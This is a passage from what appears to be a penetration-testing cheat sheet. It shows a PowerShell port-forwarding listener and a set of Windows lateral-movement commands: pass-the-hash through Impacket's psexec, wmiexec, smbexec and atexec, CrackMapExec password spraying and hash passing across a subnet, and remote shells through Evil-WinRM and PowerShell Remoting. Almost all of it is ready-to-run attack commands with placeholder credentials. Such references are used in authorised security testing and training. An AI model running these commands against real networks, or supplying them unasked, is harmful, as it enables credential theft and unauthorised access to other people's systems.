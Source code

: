 #### PowerShell Reverse Proxy
```powershell
# Simple PowerShell port forward
$listener = [System.Net.Sockets.TcpListener]::new([System.Net.IPAddress]::Any, 8080)
$listener.Start()
while ($true) {
    $client = $listener.AcceptTcpClient()
    $target = [System.Net.Sockets.TcpClient]::new('10.1.1.10', 80)
    # ... proxy traffic between client and target
}
```

## Lateral Movement

### Windows Lateral Movement

#### Pass-the-Hash with Impacket
```bash
# PSExec with hash
impacket-psexec domain/username@target -hashes lm-hash:nt-hash

# WMIExec with hash
impacket-wmiexec domain/username@target -hashes lm-hash:nt-hash

# SMBExec with hash
impacket-smbexec domain/username@target -hashes lm-hash:nt-hash

# AtExec with hash (scheduled task)
impacket-atexec domain/username@target -hashes lm-hash:nt-hash 'whoami'
```

#### CrackMapExec Lateral Movement
```bash
# Password spray across network
crackmapexec smb 10.1.1.0/24 -u username -p password

# Pass-the-hash across network
crackmapexec smb 10.1.1.0/24 -u username -H nt-hash

# Execute commands
crackmapexec smb 10.1.1.10 -u username -p password -x 'whoami'

# WinRM lateral movement
crackmapexec winrm 10.1.1.10 -u username -p password
```

#### WinRM Lateral Movement
```bash
# Evil-WinRM
evil-winrm -i 10.1.1.10 -u username -p password
evil-winrm -i 10.1.1.10 -u username -H nt-hash

# PowerShell Remoting
powershell.exe -c "Enter-PSSession -ComputerName 10.1.1.10 -Credential (Get-Credential)"
```
